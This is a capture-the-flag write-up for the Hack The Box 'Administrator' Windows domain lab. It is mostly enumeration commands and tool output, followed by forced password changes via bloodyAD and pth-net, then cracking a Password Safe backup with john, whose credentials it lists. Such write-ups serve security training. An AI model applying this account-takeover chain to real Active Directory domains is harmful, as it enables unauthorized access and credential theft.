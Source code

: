 # Administrator - HTB Write-up
<img src="https://labs.hackthebox.com/storage/avatars/9d232b1558b7543c7cb85f2774687363.png" width="200" height="200">

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: 

Username: `Olivia` 
Password: `ichliebedich`

## Initial portscan
```shell
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-10 00:57:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52801/tcp open  msrpc         Microsoft Windows RPC
60218/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60223/tcp open  msrpc         Microsoft Windows RPC
60245/tcp open  msrpc         Microsoft Windows RPC
60249/tcp open  msrpc         Microsoft Windows RPC
60283/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-10T00:58:04
|_  start_date: N/A
|_clock-skew: 6h59m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## Port 21 - FTP
Can't access with `Olivia` credentials.

## Port 53 - Simple DNS
Let's run gobuster in dns mode, maybe we can get a subdomain.

```shell
❯ gobuster dns -d $domain -r $ip -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     administrator.htb
[+] Threads:    10
[+] Resolver:   10.129.74.224
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dc.administrator.htb
Found: gc._msdcs.administrator.htb
Found: domaindnszones.administrator.htb
Found: forestdnszones.administrator.htb
```
Add all the domians to `/etc/hosts`.

## Port 88 - Kerberos

**Users enumeration**
```shell
❯ ./kerbrute -d $domain --dc $ip userenum /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/09/25 - Ronnie Flathers @ropnop

2025/03/09 14:19:32 >  Using KDC(s):
2025/03/09 14:19:32 >   10.129.74.224:88

2025/03/09 14:19:32 >  [+] VALID USERNAME:       michael@administrator.htb
2025/03/09 14:19:35 >  [+] VALID USERNAME:       benjamin@administrator.htb
2025/03/09 14:19:44 >  [+] VALID USERNAME:       administrator@administrator.htb
2025/03/09 14:19:44 >  [+] VALID USERNAME:       emily@administrator.htb
2025/03/09 14:19:48 >  [+] VALID USERNAME:       olivia@administrator.htb
2025/03/09 14:19:56 >  [+] VALID USERNAME:       ethan@administrator.htb
```
DOMAIN SID: `S-1-5-21-1088858960-373806567-254189436`

## Port 445 - SMB/CIFS
```shell
❯ nxc smb $ip -u Olivia -p ichliebedich --shares
SMB         10.129.74.224   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.74.224   445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.129.74.224   445    DC               [*] Enumerated shares
SMB         10.129.74.224   445    DC               Share           Permissions     Remark
SMB         10.129.74.224   445    DC               -----           -----------     ------
SMB         10.129.74.224   445    DC               ADMIN$                          Remote Admin
SMB         10.129.74.224   445    DC               C$                              Default share
SMB         10.129.74.224   445    DC               IPC$            READ            Remote IPC
SMB         10.129.74.224   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.74.224   445    DC               SYSVOL          READ            Logon server share 
```

## BloodyAD - Writable AD Objects
```shell
❯ bloodyAD --host $ip -d administrator.htb -u Olivia -p ichliebedich get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=administrator,DC=htb
permission: WRITE

distinguishedName: CN=Olivia Johnson,CN=Users,DC=administrator,DC=htb
permission: WRITE

distinguishedName: CN=Michael Williams,CN=Users,DC=administrator,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

## BloodyAD - Change the password of michael user
In the previous run we saw that we have access to michael user, let's change his password.

```shell
❯ bloodyAD --host $ip -d administrator.htb -u Olivia -p ichliebedich set password michael password123
[+] Password changed successfully!
```

## Analyzing with Bloodhound CE
Use bloodhound-python to dump all info from AD then upload to BloodHound CE to analysis.

It reveals that user `michael` can change the password of user `benjamin` by using the `ForceChangePassword` method.

## Change the password of user benjamin
```shell
❯ pth-net rpc password "benjamin" "newP@ssword2022" -U "ADMINISTRATOR"/"michael"%"password123" -S "10.129.74.224"
E_md4hash wrapper called.
```

**New credentials:**
`benjamin`/`newP@ssword2022`

## Using new credentials
We try the new credentials in all services again. In the ftp we find the file `Backup.psafe3`.

Doing some research we can get the hash for john using `pwsafe2john` utility.

```shell
❯ pwsafe2john Backup.psafe3
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

Now use it with john-the-ripper.
```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt Backup.psafe3.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2025-03-09 23:50) 6.666g/s 81920p/s 81920c/s 81920C/s 123456..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

**Credentials of file**
`tekieromucho`

**Contents of the file**
- `alenxander` / `UrkIbagoxMyUGw0aPlj9B0AXSea4Sw`
- `emily` / `UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
- `emma` / `WwANQWnmJnGV07WQN8bMS7FMAbjNur`